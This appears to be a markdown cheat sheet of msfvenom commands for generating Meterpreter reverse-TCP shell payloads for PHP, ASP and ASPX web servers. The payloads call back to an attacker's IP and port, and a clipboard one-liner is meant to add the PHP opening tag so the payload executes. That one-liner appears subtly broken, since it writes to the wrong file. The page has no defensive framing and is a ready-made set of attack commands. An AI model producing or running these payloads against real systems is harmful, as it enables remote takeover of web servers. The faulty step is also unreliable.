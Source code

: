 # Reverse Shells

## PHP

PHP meterpreter reverse callback shell.

```
$ msfvenom -p php/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f raw -o met.php
```

After generating the PHP meterpreter reverse callback shell include the tags to ensure execution.

```
$ xclip -selection clipboard met.php && echo '<?php ' | tr -d '\n'> shell.php && xclip -selection clipboard -o >> met.php
```

## ASP

x86 (32-bit) Payloads

```
$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f asp -o met-x86.asp
```

x86-64 (64-bit) Payloads

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f asp -o met-x64.asp
```

## ASPX

x86 (32-bit) Payloads

```
$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o met-x86.aspx
```

x86-64 (64-bit) Payloads

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o met-x64.aspx
```